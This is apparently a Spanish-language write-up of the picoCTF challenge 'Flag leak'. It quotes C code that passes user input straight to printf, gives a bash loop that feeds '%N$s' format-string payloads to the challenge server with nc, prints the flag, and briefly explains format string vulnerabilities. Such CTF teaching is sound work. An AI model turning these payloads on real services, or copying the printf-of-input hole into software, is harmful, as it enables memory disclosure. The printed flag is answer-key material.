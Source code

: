 # Flag leak


## Descripcion
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using:`nc saturn.picoctf.net 54358`
## Pistas
Format Strings

## Solucion
analizamos el codigo y encontramos la siguiente linea
```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

```
vemos que de entrada formatea el string dandonos un acceso de vulnerabilidad a las entradas de memoria si se pasa el parametro adecuado. creamo la siguiente funcion para revisar todas las locaciones de memoria posibles
```bash
for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 54358 | grep CTF; done
```
## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}
## Notas adicionales
The string format vulnerability, also known as "format string vulnerability" or "format string attack," is a type of security vulnerability that occurs when a program uses user-supplied input as a format string without proper validation or sanitization. This vulnerability is typically found in languages that support formatted output functions, such as C, C++, and some scripting languages.

The vulnerability arises when an attacker can control the format string argument passed to a formatting function, such as `printf` or `sprintf`, and can exploit the behavior of these functions to read or write data in unintended memory locations. The format string can contain format specifiers, such as `%s` for strings, `%d` for integers, etc., which are intended to be replaced with corresponding values.

## Referencias
https://resources.infosecinstitute.com/topic/how-to-exploit-format-string-vulnerabilities/